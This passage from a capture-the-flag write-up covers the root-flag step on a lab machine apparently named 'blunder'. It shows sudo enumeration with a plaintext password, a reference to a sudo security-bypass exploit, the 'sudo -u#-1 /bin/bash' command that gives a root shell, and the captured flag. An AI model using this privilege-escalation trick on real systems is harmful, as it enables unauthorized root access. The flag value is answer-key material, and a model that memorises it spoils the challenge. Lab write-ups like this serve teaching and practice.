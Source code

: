 #### 4.1. Root flag

1) Enum

```
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

2) Sudo exploit `(ALL, !root) /bin/bash`

```
https://www.exploit-db.com/exploits/47502 (sudo 1.8.27 - Security Bypass)
```

3) Bash version enum

```
hugo@blunder:~$ sudo --version
sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```

4) Root flag

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo# id
id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo#
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
f2c3f72cf81cd361b7145b815552c8ad
```
